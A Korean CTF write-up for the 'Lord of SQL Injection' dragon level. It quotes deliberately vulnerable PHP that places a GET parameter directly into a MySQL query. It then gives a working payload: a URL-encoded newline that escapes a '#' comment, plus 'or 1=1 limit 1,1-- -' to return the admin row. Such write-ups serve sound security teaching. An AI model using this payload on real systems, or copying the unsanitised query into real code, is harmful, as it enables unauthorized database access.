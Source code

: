 # Lord of SQL Injection No.20 - dragon

## 문제 출제 의도

주석 처리를 우회할 수 있는지 확인한다.

## 소스 코드 분석

dragon 문제의 php 소스 코드는 다음과 같다.
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
  highlight_file(__FILE__); 
?>
```
-----

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
```
* GET방식으로 pw를 받고, pw에 `prob`, `_`, `.`, `()` 가 들어 있으면 `No Hack ~_~`이 뜨고 문제 풀이에 실패한다.

```php
  $query = "select id from prob_dragon where id='guest'# and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("dragon");
```
* 받은 pw가 직접 쿼리에 들어간다. 이것으로 SQL Injection 공격이 가능하다는 것을 알 수 있다.

* 다만 `id='guest'` 뒤에 주석인 `#`이 붙어있어 그 뒤에 들어가는 코드가 처리되지 않는다.

* 문제 풀이가 성공하는 조건은 '데이터베이스에서 받은 id에 "admin"이라는 값이 들어있음'이다.

-----

## Solution
    
1. 개행 문자로 주석 처리 우회

    `id='guest'` 뒤에 주석인 `#`이 붙어있어 그 뒤에 들어가는 코드가 처리되지 않는다.

    pw의 값에 개행 문자인 LF(Line Feed, %0A)를 삽입하여 주석 처리를 우회한다.

    ```
    http://los.eagle-jump.org/dragon_7ead3fe768221c5d34bc42d518130972.php?pw='%0aor 1=1 limit 1,1-- -
    ```

    ```
    select id from prob_dragon where id='guest'# and pw='' or 1=1 limit 1,1-- -'
    ```